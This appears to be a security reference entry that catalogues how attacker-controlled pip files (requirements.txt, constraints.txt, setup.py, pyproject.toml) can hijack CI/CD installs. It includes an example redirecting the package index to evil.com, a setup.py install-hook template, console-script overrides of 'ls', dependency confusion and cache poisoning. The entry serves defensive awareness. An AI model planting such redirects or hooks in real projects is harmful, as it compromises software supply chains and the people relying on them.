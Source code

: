 ```yaml
---
title: pip
tags:
- cli
- input-file
- eval-py
- env-var
references:
- https://pip.pypa.io/en/stable/cli/pip_install/
- https://pip.pypa.io/en/stable/topics/secure-installs/
- https://pip.pypa.io/en/stable/reference/build-system/
files: [requirements.txt, constraints.txt, setup.py, pyproject.toml]
---
```


`pip` is the standard package installer for Python.

# `requirements.txt`

When a workflow executes `pip install -r requirements.txt`, it will use the directives within that file. 

An attacker can add a malicious package that they host on Pypi to `requirements.txt`. 

`--index-url` or `-i`: An attacker can set a malicious package index directly in `requirements.txt`. Those flags allow to overwrite the standard Pypi registry with an attacker-controlled registry.

These flags in `requirements.txt` take the highest priority over environment variables and `pip.conf` or `pip.ini`. Only a flag in the command (eg. *`pip install -r requirements.txt -i https://blabla.com`*) will take priority over them. 
If several flags `-i` are present in `requirements.txt`, the last one will be applied. 


An attacker can use `-r {file_name}` to **recursively include** the content of `file_name` in `requirements.txt`.

```py
# 'requirements.txt' file
pandas
numpy==1.26.4
-r -
```
```py
# '-' file
-i https://evil.com/
```

 In just 3 characters, the file `-` can redirect the index for all packages in the file.

# Local Package Installation
A requirements.txt file can point to a local directory. This makes the runner download an attacker-controlled package. 

```toml
# 'requirements.txt' file 
./path/to/malicious_local_package
```

# `constraints.txt`
A constraints file `constraints.txt` can specify package versions and index url using the flags `--index-url` or `-i`. `constraints.txt` is only used by pip when explicitly called in the command: `pip install -r requirements.txt -c constraints.txt`. It allows to overwrite the standard Pypi registry with an attacker-controlled registry. 

If there is also --index-url specified in `requirements.txt.`, the one in `constraints.txt` will be overridden by one in requirements.txt.

# `setup.py`
`setup.py` is automatically called by `pip` when it installs a local package with `pip install ./package_name`, a local package in `requirements.txt` or uses `pip install .`.  

`setup.py` can define post-install scripts that are automatically run after installation with `pip install`. This leads to python code execution. 

```py
# 'setup.py' file

from setuptools.command.install import install
class CustomInstallCommand(install):
    def run(self):
        # malicious code 
        ...

setup(
    name='malicious',
    version='0.1.0',
    cmdclass={
        'install': CustomInstallCommand,
    },
)
```

# Command hijacking

`pyproject.toml` or `setup.py` is automatically called by `pip` when it installs a local package with `pip install ./package_name`, local package in `requirements.txt` or `pip install .`.  

`pyproject.toml` and `setup.py` can define scripts that are added to the environment's PATH. This can be used to override legitimate commands used later in a workflow, as local paths are often prioritized. This attack works even for wheel (.whl) distributions where setup.py is not executed at install time.

Scripts in `pyproject.toml` can be defined under [project.scripts]. In `setup.py`, they can be defined in entry_points.console_scripts. 
```py
# 'setup.py' file 

setup(
    ...
    entry_points={
        'console_scripts': [
            'ls' = malicious_ls:main',
        ],
    },
)
```

```toml
# 'pyproject.toml' file

[build-system]
...

[project]
...

[project.scripts]
ls = "malicious_ls:main"
```
Here an attacker defined a malicious `main` function in `malicious_ls.py` to replace the `ls` command. Every time `ls` will be used, the attacker's script will run instead of the legitime `ls`. 

# Extra index url
The attacks described above that use `-index-url` can also be applied to `--extra-index-url`. This flag adds another index registry, which is used in parallel with the one defined in the index URL (Pypi by default). There is no priority between the two; the most recent version takes precedence. If the same version is found in both, pip chooses one or the other pseudo-randomly. Consequently, an attacker could launch a dependency confusion attack. 

# Cache Poisoning
The attacks described present a significant threat in CI/CD environments that share a dependency cache between workflows. Once a package is downloaded, it is stored in the cache. This cache can be shared between runners for optimisation purposes.  

If non-vulnerable CI runners retrieve dependencies from a shared cache without verifying their hash against the legitimate index (Pypi) — which they do not and cannot do — they will use the attacker's poisoned version.

A single vulnerable workflow can thereby compromise other, unrelated workflows that share its cache.

# uv
`uv` is a Python package installer and resolver. 

The LOTPs defined for pip also apply to `uv` with `uv pip install`. 